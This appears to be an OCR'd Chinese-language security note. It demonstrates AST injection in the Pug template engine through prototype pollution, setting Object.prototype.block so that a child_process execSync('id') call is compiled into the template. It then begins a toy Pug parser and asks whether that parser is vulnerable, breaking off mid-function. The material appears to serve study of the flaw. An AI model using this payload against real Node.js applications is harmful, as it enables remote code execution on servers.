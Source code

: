 注入：

```javascript
const pug = require('pug');

Object.prototype.block = {"type": "Text", "line": "console.log(process.mainModule.require('child_process').execSync('id').toString())"};

const source = `h1= msg`;

var fn = pug.compile(source, {});
console.log(fn.toString());

/*
function template(locals) {
    var pug_html = "",
        pug_mixins = {},
        pug_interp;
    var pug_debug_filename, pug_debug_line;
    try {;
        var locals_for_with = (locals || {});

        (function (console, msg, process) {;
            pug_debug_line = 1;
            pug_html = pug_html + "\u003Ch1\u003E";;
            pug_debug_line = 1;
            pug_html = pug_html + (pug.escape(null == (pug_interp = msg) ? "" : pug_interp));;
            pug_debug_line = console.log(process.mainModule.require('child_process').execSync('id').toString());
            pug_html = pug_html + "ndefine\u003C\u002Fh1\u003E";
        }.call(this, "console" in locals_for_with ?
            locals_for_with.console :
            typeof console !== 'undefined' ? console : undefined, "msg" in locals_for_with ?
            locals_for_with.msg :
            typeof msg !== 'undefined' ? msg : undefined, "process" in locals_for_with ?
            locals_for_with.process :
            typeof process !== 'undefined' ? process : undefined));;
    } catch (err) {
        pug.rethrow(err, pug_debug_filename, pug_debug_line);
    };
    return pug_html;
}
*/
```

 一个简单的pug引擎

请问如下代码是否存在AST injection?

```javascript
// Step 1: 解析 - 将 Pug 语法解析成 AST
function parse(pugCode) {
  let lines = pugCode.split('\n');
  let ast = lines.map((line, index) => {
    let match = /^(\s*)(\w+)(?:\s*(.*))?$/g.exec(line);
    if (match) {
      let indent = match[1].length;
      let tag = match[2];
      let type;
      let text = match[3] || "";
      if (text.startsWith("@")) {
        [type, text] = text.slice(1).split(' ');
      }
      return { indent, tag, type, text, line: index + 1 }; // Add type to AST node
    } else {
      throw new Error(`Parsing error on line ${index + 1}`);
```